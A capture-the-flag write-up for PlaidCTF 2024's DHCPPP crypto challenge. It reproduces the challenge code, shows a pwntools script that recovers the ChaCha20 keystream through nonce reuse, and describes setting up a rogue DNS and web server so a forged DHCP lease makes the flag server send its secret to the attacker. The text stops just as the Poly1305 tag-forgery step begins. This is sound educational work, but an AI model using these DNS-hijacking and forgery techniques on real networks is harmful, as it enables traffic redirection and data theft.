

# Plaid CTF 2024 Writeup (Team: L3ak, 38th Place)
Competition URL: https://plaidctf.com/
## Overview

| Challenge | Category | Points | Solves | Flag                                        |
| --------- | -------- | ------ | ------ | ------------------------------------------- |
| DHCPPP    | crypto   |  200   |   42   | PCTF{d0nt_r3u5e_th3_n0nc3_d4839ed727736624} |

## Authors
- [Matthias](https://github.com/0x-Matthias/)
- [Suvoni](https://github.com/suvoni/)

## Challenge: DHCPPP
The local latin dance company is hosting a comp. They have a million-dollar wall of lava lamps and prizes so big this must be a once-in-a-lifetime opportunity.

*Hypotheses*. It's not DNS // There's no way it's DNS // It was DNS

### Attachment
- [dhcppp.py](./dhcppp.py)
```python
import time, zlib
import secrets
import hashlib
import requests
from Crypto.Cipher import ChaCha20_Poly1305
import dns.resolver

CHACHA_KEY = secrets.token_bytes(32)
TIMEOUT = 1e-1

def encrypt_msg(msg, nonce):
    # In case our RNG nonce is repeated, we also hash
    # the message in. This means the worst-case scenario
    # is that our nonce reflects a hash of the message
    # but saves the chance of a nonce being reused across
    # different messages
    nonce = sha256(msg[:32] + nonce[:32])[:12]

    cipher = ChaCha20_Poly1305.new(key=CHACHA_KEY, nonce=nonce)
    ct, tag = cipher.encrypt_and_digest(msg)

    return ct+tag+nonce

def decrypt_msg(msg):
    ct = msg[:-28]
    tag = msg[-28:-12]
    nonce = msg[-12:]

    cipher = ChaCha20_Poly1305.new(key=CHACHA_KEY, nonce=nonce)
    pt = cipher.decrypt_and_verify(ct, tag)

    return pt

def calc_crc(msg):
    return zlib.crc32(msg).to_bytes(4, "little")

def sha256(msg):
    return hashlib.sha256(msg).digest()

RNG_INIT = secrets.token_bytes(512)

class DHCPServer:
    def __init__(self):
        self.leases = []
        self.ips = [f"192.168.1.{i}" for i in range(3, 64)]
        self.mac = bytes.fromhex("1b 7d 6f 49 37 c9")
        self.gateway_ip = "192.168.1.1"

        self.leases.append(("192.168.1.2", b"rngserver_0", time.time(), []))

    def get_lease(self, dev_name):
        if len(self.ips) != 0:
            ip = self.ips.pop(0)
            self.leases.append((ip, dev_name, time.time(), []))
        else:
            # relinquish the oldest lease
            old_lease = self.leases.pop(0)
            ip = old_lease[0]
            self.leases.append((ip, dev_name, time.time(), []))

        pkt = bytearray(
            bytes([int(x) for x in ip.split(".")]) +
            bytes([int(x) for x in self.gateway_ip.split(".")]) +
            bytes([255, 255, 255, 0]) +
            bytes([8, 8, 8, 8]) +
            bytes([8, 8, 4, 4]) +
            dev_name +
            b"\x00"
        )

        pkt = b"\x02" + encrypt_msg(pkt, self.get_entropy_from_lavalamps()) + calc_crc(pkt)

        return pkt

    def get_entropy_from_lavalamps(self):
        # Get entropy from all available lava-lamp RNG servers
        # Falling back to local RNG if necessary
        entropy_pool = RNG_INIT

        for ip, name, ts, tags in self.leases:
            if b"rngserver" in name:
                try:
                    # get entropy from the server
                    output = requests.get(f"http://{ip}/get_rng", timeout=TIMEOUT).text
                    entropy_pool += sha256(output.encode())
                except:
                    # if the server is broken, get randomness from local RNG instead
                    entropy_pool += sha256(secrets.token_bytes(512))

        return sha256(entropy_pool)

    def process_pkt(self, pkt):
        assert pkt is not None

        src_mac = pkt[:6]
        dst_mac = pkt[6:12]
        msg = pkt[12:]

        if dst_mac != self.mac:
            return None

        if src_mac == self.mac:
            return None

        if len(msg) and msg.startswith(b"\x01"):
            # lease request
            dev_name = msg[1:]
            lease_resp = self.get_lease(dev_name)
            return (
                self.mac +
                src_mac + # dest mac
                lease_resp
            )
        else:
            return None

class FlagServer:
    def __init__(self, dhcp):
        self.mac = bytes.fromhex("53 79 82 b5 97 eb")
        self.dns = dns.resolver.Resolver()
        self.process_pkt(dhcp.process_pkt(self.mac+dhcp.mac+b"\x01"+b"flag_server"))

    def send_flag(self):
        with open("flag.txt", "r") as f:
            flag = f.read().strip()
        curl("example.com", f"/{flag}", self.dns)

    def process_pkt(self, pkt):
        assert pkt is not None

        src_mac = pkt[:6]
        dst_mac = pkt[6:12]
        msg = pkt[12:]

        if dst_mac != self.mac:
            return None

        if src_mac == self.mac:
            return None

        if len(msg) and msg.startswith(b"\x02"):
            # lease response
            pkt = msg[1:-4]
            pkt = decrypt_msg(pkt)
            crc = msg[-4:]
            assert crc == calc_crc(pkt)

            self.ip = ".".join(str(x) for x in pkt[0:4])
            self.gateway_ip = ".".join(str(x) for x in pkt[4:8])
            self.subnet_mask = ".".join(str(x) for x in pkt[8:12])
            self.dns1 = ".".join(str(x) for x in pkt[12:16])
            self.dns2 = ".".join(str(x) for x in pkt[16:20])
            self.dns.nameservers = [self.dns1, self.dns2]
            assert pkt.endswith(b"\x00")

            print("[FLAG SERVER] [DEBUG] Got DHCP lease", self.ip, self.gateway_ip, self.subnet_mask, self.dns1, self.dns2)

            return None

        elif len(msg) and msg.startswith(b"\x03"):
            # FREE FLAGES!!!!!!!
            self.send_flag()
            return None

        else:
            return None

def curl(url, path, dns):
    ip = str(dns.resolve(url).response.resolve_chaining().answer).strip().split(" ")[-1]
    url = "http://" + ip
    print(f"Sending flage to {url}")
    requests.get(url + path)

if __name__ == "__main__":
    dhcp = DHCPServer()
    flagserver = FlagServer(dhcp)

    while True:
        pkt = bytes.fromhex(input("> ").replace(" ", "").strip())

        out = dhcp.process_pkt(pkt)
        if out is not None:
            print(out.hex())

        out = flagserver.process_pkt(pkt)
        if out is not None:
            print(out.hex())
```

## Analysis

At first glance, we can make out a couple of helper functions, a **main** function as well as two server classes: A **DhcpServer** and a **FlagServer**. Let's take a deep dive into the code to understand the provided funtions.

### Main

The **main** function creates an instance of the **DhcpServer** class and an instance of the **FlagServer** class (which is using the DhcpServer instance). Then it enters an infinite loop of reading hex encoded packet data from the command line, passing it to both server instances and printing their outputs / return values as hex. Additionally, we can see that both servers declare a `process_pkt(packet)` function, which seems to handle the incoming requests for the respective server.
```python
if __name__ == "__main__":
    dhcp = DHCPServer()
    flagserver = FlagServer(dhcp)

    while True:
        pkt = bytes.fromhex(input("> ").replace(" ", "").strip())

        out = dhcp.process_pkt(pkt)
        if out is not None:
            print(out.hex())

        out = flagserver.process_pkt(pkt)
        if out is not None:
            print(out.hex())
```

### Helper functions and static data

When analyzing the helper functions and static data, we can see two randomly-generated byte strings that are generated in a cryptographically secure way: `CHACHA_KEY` and the `RNG_INIT`, with lengths of 32 and 512 bytes, respectively.
```python
import secrets

CHACHA_KEY = secrets.token_bytes(32)
RNG_INIT = secrets.token_bytes(512)
```

Additionally, there are helper functions to compute a **crc32** checksum and a **SHA256** hash - nothing out of the ordinary.
```python
import zlib
import hashlib

def calc_crc(msg):
    return zlib.crc32(msg).to_bytes(4, "little")

def sha256(msg):
    return hashlib.sha256(msg).digest()
```

We also have some functions to encrypt and decrypt data using the **ChaCha20_Poly1305** algorithm, which uses a `key` and a `nonce` to encrypt a `message` and produces a `ciphertext` and an authentication `tag` (a.k.a. message authentication code or MAC for short - not to be confused with a *MAC address* though).
```python
from Crypto.Cipher import ChaCha20_Poly1305

def encrypt_msg(msg, nonce):
    # In case our RNG nonce is repeated, we also hash
    # the message in. This means the worst-case scenario
    # is that our nonce reflects a hash of the message
    # but saves the chance of a nonce being reused across
    # different messages
    nonce = sha256(msg[:32] + nonce[:32])[:12]

    cipher = ChaCha20_Poly1305.new(key=CHACHA_KEY, nonce=nonce)
    ct, tag = cipher.encrypt_and_digest(msg)

    return ct+tag+nonce

def decrypt_msg(msg):
    ct = msg[:-28]
    tag = msg[-28:-12]
    nonce = msg[-12:]

    cipher = ChaCha20_Poly1305.new(key=CHACHA_KEY, nonce=nonce)
    pt = cipher.decrypt_and_verify(ct, tag)

    return pt
```
A couple of things to note here:
- Typically you're able to reuse the key for ChaCha20_Poly1305, as long as you're using a different nonce for each message encryption; otherwise this algorithm is known to lose confidentiality for messages encrypted using the same nonce.
- Assuming an attacker can control the first 32 bytes of the `message` and the `nonce` parameters, the nonce used during the encryption can suffer from a `key and nonce reuse attack` depending on the provided parameters.
- The `decrypt_msg` function does not validate that the `nonce`, supplied with the encrypted message `msg`, adheres to the pattern used to contruct the `nonce` in the `encrypt_msg` function.
- Both the `encrypt_msg` and the `decrypt_msg` functions use the same static key `CHACHA_KEY` for the **ChaCha20_Poly1305** cipher.

Lastly, there's the custom `curl` function, which looks like it's trying to resolve a domain using a specified **DNS server** instance and then sending an http **GET** request to the corresponding IP address. We'll come back to this once we analyze the **FlagServer**.
```python
import dns.resolver
import requests

def curl(url, path, dns):
    ip = str(dns.resolve(url).response.resolve_chaining().answer).strip().split(" ")[-1]
    url = "http://" + ip
    print(f"Sending flage to {url}")
    requests.get(url + path)
```

### DhcpServer

Now that we've seen the helper functions, let's come back to the server classes: Starting with the **DhcpServer**.

The `__init__` function of this class declares two lists `leases` and `ips` which will contain the provided leases and the available ips for this DhcpServer. Additionally, it sets its **MAC address** to the static hex value `1b 7d 6f 49 37 c9`, sets its gateway to `192.168.1.1`, and leases out the IP address `192.168.1.2` to a server named `rngserver_0`.
```python
import time

class DHCPServer:
    def __init__(self):
        self.leases = []
        self.ips = [f"192.168.1.{i}" for i in range(3, 64)]
        self.mac = bytes.fromhex("1b 7d 6f 49 37 c9")
        self.gateway_ip = "192.168.1.1"

        self.leases.append(("192.168.1.2", b"rngserver_0", time.time(), []))
```

Now let's analyze the `process_pkt` function:
- We can deduce some of the structure of the packet data: Each packet is supposed to start with a 6 byte MAC address corresponding to the sender of the packet, followed by another 6 byte MAC address of the receiver of the packet. The rest of the packet will contain the actual message.
- The DhcpServer will only process packets that are meant to be routed to it and don't originate from itself.
- If the message does not start with a `0x01`-byte, the DhcpServer will reject the packet.
- Otherwise it will interpret the message-content following the `0x01`-byte, which is reminiscent of a **DHCP discovery message**, as the server name, try to lease an IP address to it and construct and return a response packet, that follows the same structure of sender MAC address followed by receiver MAC address and the actual message, to the sender of the current packet.
```python
    def process_pkt(self, pkt):
        assert pkt is not None

        src_mac = pkt[:6]
        dst_mac = pkt[6:12]
        msg = pkt[12:]

        if dst_mac != self.mac:
            return None

        if src_mac == self.mac:
            return None

        if len(msg) and msg.startswith(b"\x01"):
            # lease request
            dev_name = msg[1:]
            lease_resp = self.get_lease(dev_name)
            return (
                self.mac +
                src_mac + # dest mac
                lease_resp
            )
        else:
            return None
```

The `get_lease` function, which processes the **DHCP discovery message**, will try to handout any unused IP address from the `ips`-list first and if all of them are in use, it will relinquish the oldest lease and reuse and handout that same IP address once more.

**Note**: If an actual DHCP server was to behave like this, modern networks would break all the time, because multiple devices would use the same IP address, which is supposed to be unique to a single device for the timeframe of the lease, which this DhcpServer implementation does not respect.

Finally this function will construct a response packet similar to a **DHCP offer message**, even replying with some of the possible **DHCP options**.
- The main difference from the official **DHCP protocol** is that the majority of the response is encrypted. Additionally, a checksum computed on the unencrypted packet is appended to the end of the response.
- Another notable piece of information are the two DNS server IP addresses given inside the response packet, which are statically set to `8.8.8.8` and `8.8.4.4` by the **DhcpServer**. We'll come back to this when analyzing the FlagServer.
```python
    def get_lease(self, dev_name):
        if len(self.ips) != 0:
            ip = self.ips.pop(0)
            self.leases.append((ip, dev_name, time.time(), []))
        else:
            # relinquish the oldest lease
            old_lease = self.leases.pop(0)
            ip = old_lease[0]
            self.leases.append((ip, dev_name, time.time(), []))

        pkt = bytearray(
            bytes([int(x) for x in ip.split(".")]) +
            bytes([int(x) for x in self.gateway_ip.split(".")]) +
            bytes([255, 255, 255, 0]) +
            bytes([8, 8, 8, 8]) +
            bytes([8, 8, 4, 4]) +
            dev_name +
            b"\x00"
        )

        pkt = b"\x02" + encrypt_msg(pkt, self.get_entropy_from_lavalamps()) + calc_crc(pkt)

        return pkt
```
Taking a deeper dive into the packet encryption, we'll notice two things:
1. The `dev_name` part of the response packet is fully controlled by the sender of the **DHCP discovery message**, as we'll see when analyzing the **FlagServer** and the intended structure of such a discovery message. The only pseudo restriction on this part is a trailing `0x00`-byte, which the sender is not supposed to change, but there's no actual check for that byte.
2. The `nonce` passed into the `encrypt_msg` function is generated using the `get_entropy_from_lavalamps` function, which we'll take a look at right now:

There are two cases for this function:
1. If the **DhcpServer** instance does not contain an active `lease` for a server containing `rngserver` in the server name, then the `get_entropy_from_lavalamps` function will just return `sha256(RNG_INIT)`.
2. On the other hand, if the **DhcpServer** does contain an active `lease` for a server containing `rngserver` in its name, then the result of the `get_entropy_from_lavalamps` function will be altered by appending some additional data to the argument of the SHA256 computation.

Thus, for the sake of simplicity, we should try to achieve the first case and get a static return value from this funtion to incur a **key and nonce reuse** in the `encrypt_msg` function. 
```python
    def get_entropy_from_lavalamps(self):
        # Get entropy from all available lava-lamp RNG servers
        # Falling back to local RNG if necessary
        entropy_pool = RNG_INIT

        for ip, name, ts, tags in self.leases:
            if b"rngserver" in name:
                try:
                    # get entropy from the server
                    output = requests.get(f"http://{ip}/get_rng", timeout=TIMEOUT).text
                    entropy_pool += sha256(output.encode())
                except:
                    # if the server is broken, get randomness from local RNG instead
                    entropy_pool += sha256(secrets.token_bytes(512))

        return sha256(entropy_pool)
```

### FlagServer

Finally let's analyze the **FlagServer**:

Similarly to the **DhcpServer**, the **FlagServer** also initializes its own **MAC address**. Additionally it sets up its own **DNS resolver** and initializes this `dns` instance and its own network settings by talking to the **DhcpServer** and asking it for the appropriate settings.
```python
class FlagServer:
    def __init__(self, dhcp):
        self.mac = bytes.fromhex("53 79 82 b5 97 eb")
        self.dns = dns.resolver.Resolver()
        self.process_pkt(dhcp.process_pkt(self.mac+dhcp.mac+b"\x01"+b"flag_server"))
```

The **FlagSever** is going to process the response of the **DhcpServer** using its own `process_pkt` function. This function, similar to the **DhcpServer**'s analogue, also parses the first 12 bytes into two different **MAC addresses** and checks those to see if it even has to process the received packet - in the same way, the **DhcpServer** does. And again, the remainder of the packet data is being considered the actual message part of the packet.

Besides that, the **FlagServer** can execute two functions depending on the incoming message `msg`.
-  If the `msg` starts with a `0x02`-byte, it will parse and process the supplied **DHCP offer message**:
    1. After stripping the static `0x02`-byte from the front and the checksum from the end of the message, the **FlagServer** decrypts the provided ciphertext packet `pkt` and veryfies the contained `tag` using the also contianed `nonce` and the previously defined `decrypt_msg` function with the shared static encryption key `CHACHA_KEY`.
    2. After decrypting the **DHCP offer message** `pkt`, the **FlagServer** also verifies the **checksum** attached to the message.
    3. If all the checks pass, the **FlagServer** will then continue to configure its own settings based on the **DHCP offer message** and also configure their `dns` server to use the supplied **DNS server ip addresses**.
- If the `msg` starts with a `0x03`-byte, then the **FlagServer** is reading the file `flag.txt` and sending a http **GET** request to `http://example.com/{flag}` using its own **DNS server**.
- Any other message will be rejected by this server.
```python
    def process_pkt(self, pkt):
        assert pkt is not None

        src_mac = pkt[:6]
        dst_mac = pkt[6:12]
        msg = pkt[12:]

        if dst_mac != self.mac:
            return None

        if src_mac == self.mac:
            return None

        if len(msg) and msg.startswith(b"\x02"):
            # lease response
            pkt = msg[1:-4]
            pkt = decrypt_msg(pkt)
            crc = msg[-4:]
            assert crc == calc_crc(pkt)

            self.ip = ".".join(str(x) for x in pkt[0:4])
            self.gateway_ip = ".".join(str(x) for x in pkt[4:8])
            self.subnet_mask = ".".join(str(x) for x in pkt[8:12])
            self.dns1 = ".".join(str(x) for x in pkt[12:16])
            self.dns2 = ".".join(str(x) for x in pkt[16:20])
            self.dns.nameservers = [self.dns1, self.dns2]
            assert pkt.endswith(b"\x00")

            print("[FLAG SERVER] [DEBUG] Got DHCP lease", self.ip, self.gateway_ip, self.subnet_mask, self.dns1, self.dns2)

            return None

        elif len(msg) and msg.startswith(b"\x03"):
            # FREE FLAGES!!!!!!!
            self.send_flag()
            return None

        else:
            return None

    def send_flag(self):
        with open("flag.txt", "r") as f:
            flag = f.read().strip()
        curl("example.com", f"/{flag}", self.dns)
```

## Solution

After puzzling all of the pieces together, we are left with a clear plan of action:
1. Forge a **DHCP offer message** and send it to the **FlagServer** to reconfigure their **DNS server** settings and have them point to us.
2. Setup our own **DNS server**, which maliciously tells the **FlagServer** that the domain `example.com` also belongs to us.
3. Setup our own web server, which is supposed to receive the messages send to `example.com` - coming from the **FlagServer**.
4. Send an other request to the **FlagServer** - this time using the `0x03`-byte message type - to make the **FlagServer** send the flag to, what they think is, `example.com`, i.e. us.
5. Receive the flag.

Now let's explore the details of each of those steps in a slightly different order - we'll start off by setting up the required infrastructure:

### The infrastructure

#### 1. Our DNS server
To be able to receive the flag, we'll need to trick the **FlagServer** into thinking we're their actual **DNS server**, such that we can also tell it that all the requests meant for `example.com` should be send to us - including the flag!

So let's set up our own **DNS server**, using a somewhat easy to configure DNS-Server implemented in python, that perfectly suits our needs:

#### 1.1. Clone the respective git repository:
```bash
$ git clone https://github.com/akapila011/DNS-Server.git && cd DNS-Server/
```

#### 1.2. Configure the server to run on the appropriate ip address:
```bash
$ vim Server.py
```

I'm running the entire exploit on a Kali virtual machine, which is configured to be **bridged** on my host machine, thus I'll have to use my `eth0`-interface ip `192.168.178.79` of that VM in this case.
```python
#!/usr/bin/env python3
import socket
from dns_generator import ClientHandler

# Global variables
IP = "192.168.178.79" # <-- Change this ip address to suit your needs
PORT = 53 # Default UPD port number for DNS; don't change this without knowingwhat you're doing, otherwise the FlagServer might not be able to reach you.

def main():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.bind((IP, PORT))
    print("DNS Listening on {0}:{1} ...".format(IP, PORT))
    while True:
        data, address = sock.recvfrom(650)
        client = ClientHandler(address, data, sock)
        client.run()

if __name__ == "__main__":
    main()
```

#### 1.3. Configure a **Zone** file for the `example.com` domain, such that the **DNS server** will actually respond to requests for `example.com` and will return our public ip address:
```bash
$ vim ./Zones/example.com.zone
```
Replace the ip address `127.0.0.1` in the **A record** with your public iaddress! **Note**, in my setup, this is not the same as the ip address used fomy virtual machine!
```
{
    "$origin": "example.com",
    "$ttl": 3600,

    "a": [
        {"name": "@",
        "ttl": 400,
        "value": "127.0.0.1"
        }
    ]
}
```

#### 1.4. Running the **DNS server**
```bash
$ sudo python ./Server.py
```

#### 2. Our web server
Running our own web server is as simple as running the following command:
```python
$ python -m http.server 80
```

#### 3. Port forwarding
If you're sitting behind a firewall, you'll need to configure it to forward the ports following ports to your machine - in my case to the VM: `80/tcp` and `53/udp`. Based on your firewall/hardware configuration, you'll have to find your own instructions on how to do this.

### The logic

#### 4. Forge a **DHCP offer message** and send it to the **FlagServer** to reconfigure their **DNS server** settings and have them point to us

To reconfigure the DNS settings of the **FlagServer**, we need to forge a packet that's supposedly encrypted and signed by the **DhcpServer** such that the **FlagServer** will successfully decrypt and verify the signature of it to reconfigure their own DNS settings.

#### 4.1. Retrieve a **KeyStream** of the desired length including the corresponding `nonce`, that we want to reuse
Remembering our analysis of the `encrypt_msg` function, we've noticed a couple of important things about the key and the nonce, both of which are used to compute the final **KeyStream** in the **ChaCha20** cipher.

The cipher key is shared between the encryption on the **DhcpServer** and the decryption on the **FlagServer**, so we don't have to worry about that one, if we can retrieve the **KeyStream** somehow.

The final nonce for the encryption is computed using the first 32 bytes of each the packet content and the primary nonce created by the `get_entropy_from_lavalamps` function.

So let's take an other look at the `get_entropy_from_lavalamps` function. If we can manage to remove all leases, that contain the string `rngserver` in their name, we can assure a static primary nonce. To do so, we'll define a short packet, that fit's our needs to request a lease from the **DhcpServer**:

```python
dhcp_req_pkt = bytearray(
	flag_server_mac + # src mac = <YOUR_MAC>
	dhcp_server_mac + # dst mac = "1b 7d 6f 49 37 c9"
	# msg:
	b'\x01' + # DHCP request
	b''     + # rest of msg
	b'\x00'
)
```

We can also verify that packets received from the **DhcpServer** matches the expected IP addresses by computing the crc32 values for the expected packet for all the possible IPs and comparing the precomputed crc32 values to the crc32 value appended to the message sent by the **DhcpServer**.

```python
crc32s = {} # hex(crc32) -> leased ip
def precompute_crc32(dhcp_req_pkt):
	global crc32s
	# precompute answer-crc32s:
	for i in range(2, 64): # needs 2, because if you kick rngserver_0 out of the leases, then IP 192.168.1.2 is used!
		ip = f'192.168.1.{i}'
		crc_pkt = bytearray(
			bytes([int(x) for x in ip.split('.')]) +
			bytes([int(x) for x in '192.168.1.1'.split('.')]) +
			bytes([255, 255, 255, 0]) +
			bytes([8, 8, 8, 8]) +
			bytes([8, 8, 4, 4]) +
			dhcp_req_pkt[12+1:] +
			b"\x00"
		)
		crc32s[binascii.hexlify(calc_crc(crc_pkt)).decode()] = ip
```

And let's just setup a small function to send the crafted packets to the **DhcpServer**:

```python
def request_ip_from_dhcp(flag_print = False, dhcp_req_pkt = dhcp_req_pkt):
	'''Requests an IP from the DHCP and returns it.'''
	global crc32s
	# prompt
	prompt = conn.readuntil(b'> ').decode()
	#print(prompt, end='')
	# send ip lease request to DHCP Server
	hex_req = binascii.hexlify(dhcp_req_pkt)
	#print('dhcp packet request:', hex_req.decode())
	conn.sendline(hex_req)
	# read response:
	resp = conn.readline().decode().strip()
	#print('resp', resp)
	resp_distant_mac = resp[:12] # dhcp mac
	#print('resp_distant_mac', resp_distant_mac)
	resp_my_mac = resp[12:24] # your own mac
	#print('resp_my_mac', resp_my_mac)
	resp_lease_msg = resp[24:-8]
	resp_lease_msg_2byte = resp_lease_msg[:2] # 02
	resp_lease_msg_ct = resp_lease_msg[2:-56]
	resp_lease_msg_tag = resp_lease_msg[-56:-24] # 16 bytes tag
	resp_lease_msg_modified_nonce = resp_lease_msg[-24:] # 12 bytes nonce
	resp_crc32 = resp[-8:]
	# Precompute crc32s on the first usage; or when the dhcp_req_pkt changes in content => resp_crc32 not in crc32s.keys()
	if resp_crc32 not in crc32s.keys():
		precompute_crc32(dhcp_req_pkt)
	if flag_print:
		print('resp_lease_msg', resp_lease_msg)
		print('resp_lease_msg_2byte', resp_lease_msg_2byte)
		print('resp_lease_msg_ct', resp_lease_msg_ct)
		print('resp_lease_msg_tag', resp_lease_msg_tag)
		print('resp_lease_msg_modified_nonce', resp_lease_msg_modified_nonce)
		print('resp_crc32', resp_crc32, ', associated IP:', crc32s[resp_crc32])
		print('Got IP:', crc32s[resp_crc32])
	return bytes.fromhex(resp_lease_msg_ct), bytes.fromhex(resp_lease_msg_tag), bytes.fromhex(resp_lease_msg_modified_nonce), crc32s[resp_crc32] #.split('.')[-1]
```

Remembering that the IP `192.168.1.1` is static to the gateway, `192.168.1.2` is assigned to `rngserver_0`, and `192.168.1.3` is assigned to the **FlagServer**, we need to request leases for all the remaining unassigned IP addresses ending in a number of the range [4 .. 63]. These 60 requests will consume all the remaining unassigned IP addresses. If we now request an additional 61th IP address, we'll kick out the `rngserver_0` from the list of leases:

```python
from pwn import *

server = 'dhcppp.chal.pwni.ng' # remote service
port = 1337
conn = remote(server, port)

print(conn.readline().decode())
print('== FINISHED SERVER BOOT ==')

# request enough IPs to remove the 'rngserver_0' from the list of leased IPs...:
print('Cycling through some IPs ...')
for _ in range(61):
	_, _, _, ip = request_ip_from_dhcp(False)
print('No more "rngserver" in the list of leased IPs')
print('Now the lavalamp always returns "sha256(RNG_INIT)!"')
# next IP will end in '.3'
```

Thus form now on, we can assume a static primary nonce with the value of `sha256(RNG_INIT)`, as long as we don't hide the string `rngserver` in any future device name.

Considering that the content of the **DHCP offer message** - which is the part, that will get encrypted - has 19 out of their 20 first bytes fixed and we can control the subsequent bytes, we actually can manipulate the first 32 bytes of this message to pull of a **key and none reuse attack**, especially since we can indirectly control the one remaining byte, which in fact is the last octet of the leased ip address, which we just need to cycle through all the other IP addresses again, as we've done before.

#### 4.2. Forge a message to the **FlagServer** to override their DNS-server entries

#### 4.2.1. Craft the desired packet
We'll focus on forging a packet that leases the IP address `192.168.1.3` (arbitrarily-chosen) and has the following structure for reasons that will become clear later on:

```python
own_ip_address = '127.0.0.1' # Change this to your own public IP address, which hosts your DNS and web server.
ip_dot_3 = '192.168.1.3'
gateway_ip = '192.168.1.1'

pkt3 = bytearray(
	bytes([int(x) for x in ip.split(".")]) +
	bytes([int(x) for x in gateway_ip.split(".")]) +
	bytes([255, 255, 255, 0]) +
	bytes([int(x) for x in own_ip_address.split(".")]) +
	bytes([int(x) for x in own_ip_address.split(".")]) +
	b'\x00'*12 +
	b'\x02'*15 +
	b"\x00"
)
assert(len(pkt3) == 48)
```

#### 4.2.2. Encrypt the desired packet
To encrypt this packet `pkt3`, we'll need a **KeyStream** of length greater or equal to 48.

Because **ChaCha20** is just an XOR encryption using the **KeyStream** as its XOR key, we can perform a **known-plaintext attack** against the encrypted packets from the **DhcpServer**, allowing us to recover the relevant bytes to encrypt `pkt3` of the **KeyStream** from just a single known plaintext - ciphertext pair.

To be able to double check our work and because we're going to need it to forge the tag anyways, let's get two different plaintext - ciphertext pairs:

```python
dhcp_server_mac = bytes.fromhex("1b 7d 6f 49 37 c9")
flag_server_mac = bytes.fromhex("53 79 82 b5 97 eb")

def byte_xor(d1, d2):
	'''Performs a byte-wise XOR on both data-streams.'''
	return bytes([(a^^b) for a,b in zip(d1, d2)])

def encrypt_custom_message_with_dhcp(custom_message_data):
	'''Returns a keystream for a DHCP-offer message'''
	global flag_server_mac, dhcp_server_mac
	dhcp_req_pkt = bytearray(
		flag_server_mac + # src mac
		dhcp_server_mac + # dst mac
		# msg:
		b'\x01' + # DHCP request
		custom_message_data + # rest of msg
		b'\x00'
	)
	ct, tag, nonce, ip = request_ip_from_dhcp(True, dhcp_req_pkt) # IP: *.*.*.3
	packet = bytearray(
		bytes([int(x) for x in ip.split(".")]) +
		bytes([int(x) for x in "192.168.1.1".split(".")]) +
		bytes([255, 255, 255, 0]) + # subnet mask
		bytes([8, 8, 8, 8]) + # dns server 1
		bytes([8, 8, 4, 4]) + # dns server 2
		dhcp_req_pkt[12+1:] +
		b"\x00"
	)
	assert(len(packet) == 48)
	assert(len(ct) == 48)
	key_stream = byte_xor(ct, packet)
	return key_stream, packet, ct, tag, nonce, ip

# lease an IP for the FlagServer and get a KeyStream of specified length for the specified IP
print('Reading key_stream for IP 192.168.1.3 with custom message #1')
_, pkt1, ct1, tag1, nonce1, _ = encrypt_custom_message_with_dhcp((b'\x00'*12) + (b'\x01'*14)) # uses IP: 192.168.1.3

# Again, discard lease requests for any undesired IP addresses:
print('Cycling through some IPs ...')
for _ in range(61):
	_, _, _, ip = request_ip_from_dhcp(False)
# next IP to lease: 192.168.1.3

print('Reading key_stream for IP 192.168.1.3 with custom message #2')
_, pkt2, ct2, tag2, nonce2, _ = encrypt_custom_message_with_dhcp((b'\x00'*12) + (b'\x02'*14)) # uses IP: 192.168.1.3
```

Since both the nonce and key are reused, and we know both the plaintext and ciphertext, we can directly recover the keystream via XOR and use this to encrypt arbitrary messages, i.e. `pkt3`in our use case:

```python
key1 = byte_xor(pkt1, ct1)
key2 = byte_xor(pkt2, ct2)
assert(key1 == key2)
assert(len(key1) == 48)
key = key1

ct3 = byte_xor(pkt3, key)
print(f'ct3 = {ct3.hex()}')
```

#### 4.3. Attempt to forge the **tag** for the encrypted message, compute the corresponding **checksum** and send the message to the **FlagServer**

This section addresses the following question: Given the Poly1305 authentication tags ``tag1, tag2`` for 2 known, distinct messages ``msg1, msg2`` which are MAC'ed with the same secret 32-byte Poly1305 key ``(r,s)``, how can we recover ``(r,s)`` to forge arbitrary messages?

To implement the Poly1305 key/nonce reuse forgery attack, we used the following references:
1. The Poly1305 Wikipedia page ([here](https://en.wikipedia.org/wiki/Poly1305]))
2. The ChaCha20-Poly1305 Wikipedia Page ([here](https://en.wikipedia.org/wiki/ChaCha20-Poly1305))
3. RFC 7539, the specification for ChaCha20 and Poly1305 ([here](https://datatracker.ietf.org/doc/html/rfc7539#section-2.8))
4. This Crypto Stack Exchange post (poncho's answer) ([here](https://crypto.stackexchange.com/questions/83629/forgery-attack-on-poly1305-when-the-key-and-nonce-reused))
